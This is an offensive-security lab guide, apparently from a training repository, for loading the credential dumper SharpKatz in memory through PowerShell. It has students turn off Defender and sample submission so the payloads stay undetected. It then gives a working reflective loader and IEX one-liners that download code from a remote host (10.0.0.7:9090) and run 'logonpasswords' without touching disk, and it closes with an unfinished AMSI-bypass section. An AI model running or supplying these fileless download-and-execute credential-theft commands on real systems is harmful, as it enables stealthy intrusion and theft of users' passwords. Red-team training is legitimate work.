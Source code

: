<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

# Lab - PS Loader

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**

In this lab we'll be showing how powershell can load assemblies in memory and execute them, we'll also demonstrate how  AMSI catches this, how we bypass this and how we make this attack completely fileless (memory only)

# 0. Turn Microsoft Defender OFF !!! 

Check if Defender is turned `OFF` by by running the av_check.ps1 script:

Open a powershell prompt:

```powershell
cd \thev\labs\powershell
.\av_check.ps1
```

![image](./images/ps_avcheck_on.jpg)

>**IMPORTANT**: Make sure Real-Time Protection is `disabled` (AMSI Scanning can by enable, it won't do anything if Real-Time Protection is disabled) - if this is not the case just run the following script, it will configure the right settings.

```powershell
cd \thev\labs\powershell
.\av_disable.ps1
```

The output should be like this :

![image](./images/ps_avdisable.jpg)

# 1. SharpKatz download and compile
```powershell
cd \THEV\Labs\PSLoader
git clone https://github.com/b4rtik/SharpKatz.git
```

Open the sln file with Visual Studio and build the project

Copy the sharpkatz.exe file to C:\THEV\LABS\PSLoader

```powershell
cp C:\THEV\Labs\PSLoader\SharpKatz\SharpKatz\bin\x64\Release\SharpKatz.exe C:\THEV\LABS\PSLoader
```

# 2. BASE64 Encode SharpKatz.exe

```powershell
cd \THEV\Labs\PSLoader
.\b64encoder.ps1
```

![image](./images/lab_psload_sharp_b64.jpg)

# 3. SharpKatz Remote Powershell Loader

```powershell
try {
    $url = "http://10.0.0.7:9090/sharpkatz.b64"
    $base64Assembly = (Invoke-WebRequest -Uri $url -UseBasicParsing).Content
    if ($base64Assembly -is [byte[]]) { $base64Assembly = [Text.Encoding]::UTF8.GetString($base64Assembly) }
    [Reflection.Assembly]::Load([Convert]::FromBase64String($base64Assembly)) | Out-Null
    $arguments = @("--Command") +$args 
    [SharpKatz.Program]::Main($arguments)
} catch {
    Write-Error "Error: $($_.Exception.Message)"
    if ($_.Exception.InnerException) { Write-Error "Inner Exception: $($_.Exception.InnerException.Message)" }
}
```

# 4. IEX

> IEX is the alias for the PowerShell cmdlet Invoke-Expression. It takes a string containing PowerShell code and executes it as if it were typed directly into the PowerShell session. Baiscally IEX allows dynamic execution of remote code.

Now, let's host our powershell script and sharpkatz (b64 encoded) on a remote server, and execute it without touching disk - completely in memory. We use IEX (Invoke-Expression) for this.

```powershell
IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1")
```

Since we wrote our script to accept arguments, we need to adapt our oneliner a bit, Since Invoke-Expression (IEX) doesn’t natively support passing arguments to the script it executes, you can wrap the downloaded script content in a `script block` and invoke it with arguments using the `call operator (&)`. This approach avoids writing the script to disk and ensures `"logonpasswords"` is passed correctly to the script’s param block.

```powershell
$scriptContent = (New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1")
$scriptBlock = [ScriptBlock]::Create($scriptContent)
& $scriptBlock logonpasswords
```

> *Explanation*
> 1. Download Script Content: (New-Object Net.WebClient).DownloadString fetches the script content as a string from the HTTP server.
> 2. Create Script Block: [ScriptBlock]::Create($scriptContent) converts the string into a PowerShell script block, which supports argument passing.
> 3. Invoke with Arguments: & $scriptBlock `logonpasswords` executes the script block, passing msv as a positional argument. This populates $UserArguments in the script’s param block, resulting in $arguments being @("--command", "logonpasswords").
> 4. No Disk Write: The script is kept in memory as $scriptContent and never saved to disk.

We can convert this back into a one-liner like this, notice the "&" at the beginning!

```powershell
& ([ScriptBlock]::Create((New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1"))) logonpasswords
```

# 5. DETECTION TESTING

- Turn Defender on
- Gocheck
- AmsiTrigger

# 6. EVASION by patching AMSI